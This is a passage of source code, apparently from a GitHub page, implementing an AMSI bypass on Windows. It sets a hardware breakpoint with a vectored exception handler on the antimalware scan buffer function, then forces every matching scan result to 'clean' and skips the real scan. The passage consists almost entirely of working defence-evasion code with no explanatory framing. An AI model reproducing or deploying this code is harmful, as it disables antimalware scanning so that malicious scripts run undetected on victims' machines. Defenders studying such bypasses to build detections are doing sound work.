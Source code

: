 ```powershell
			MethodInfo method = typeof(Amsi).GetMethod("Handler", BindingFlags.Static | BindingFlags.Public);
			IntPtr hExHandler = WinAPI.AddVectoredExceptionHandler(1, method.MethodHandle.GetFunctionPointer());
			
			Marshal.StructureToPtr(ctx, pCtx, true);
			bool b = WinAPI.GetThreadContext((IntPtr)(-2), pCtx);
			ctx = (WinAPI.CONTEXT64)Marshal.PtrToStructure(pCtx, typeof(WinAPI.CONTEXT64));
			
			EnableBreakpoint(ctx, pABuF, 0);
			WinAPI.SetThreadContext((IntPtr)(-2), pCtx);
		}
		
		public static long Handler(IntPtr exceptions)
		{
			WinAPI.EXCEPTION_POINTERS ep = new WinAPI.EXCEPTION_POINTERS();
			ep = (WinAPI.EXCEPTION_POINTERS)Marshal.PtrToStructure(exceptions, typeof(WinAPI.EXCEPTION_POINTERS));
			
			WinAPI.EXCEPTION_RECORD ExceptionRecord = new WinAPI.EXCEPTION_RECORD();
			ExceptionRecord = (WinAPI.EXCEPTION_RECORD)Marshal.PtrToStructure(ep.pExceptionRecord, typeof(WinAPI.EXCEPTION_RECORD));
			
			WinAPI.CONTEXT64 ContextRecord = new WinAPI.CONTEXT64();
			ContextRecord = (WinAPI.CONTEXT64)Marshal.PtrToStructure(ep.pContextRecord, typeof(WinAPI.CONTEXT64));
			
			if (ExceptionRecord.ExceptionCode == WinAPI.EXCEPTION_SINGLE_STEP && ExceptionRecord.ExceptionAddress == pABuF) {
				ulong ReturnAddress = (ulong)Marshal.ReadInt64((IntPtr)ContextRecord.Rsp);
				
				IntPtr ScanResult = Marshal.ReadIntPtr((IntPtr)(ContextRecord.Rsp + (6 * 8))); // 5th arg, swap it to clean
				
				Marshal.WriteInt32(ScanResult, 0, WinAPI.AMSI_RESULT_CLEAN);
				
				ContextRecord.Rip = ReturnAddress;
				ContextRecord.Rsp += 8;
				ContextRecord.Rax = 0; // S_OK
				
				Marshal.StructureToPtr(ContextRecord, ep.pContextRecord, true); //Paste our altered ctx back in TO THE RIGHT STRUCT
				return WinAPI.EXCEPTION_CONTINUE_EXECUTION;
			} else {
				return WinAPI.EXCEPTION_CONTINUE_SEARCH;
			}
		}
		
		public static void EnableBreakpoint(WinAPI.CONTEXT64 ctx, IntPtr address, int index) {
		switch (index) {
			case 0:
				ctx.Dr0 = (ulong)address.ToInt64();
				break;
			case 1:
				ctx.Dr1 = (ulong)address.ToInt64();
				break;
			case 2:
				ctx.Dr2 = (ulong)address.ToInt64();
				break;
			case 3:
				ctx.Dr3 = (ulong)address.ToInt64();
				break;
		}
```
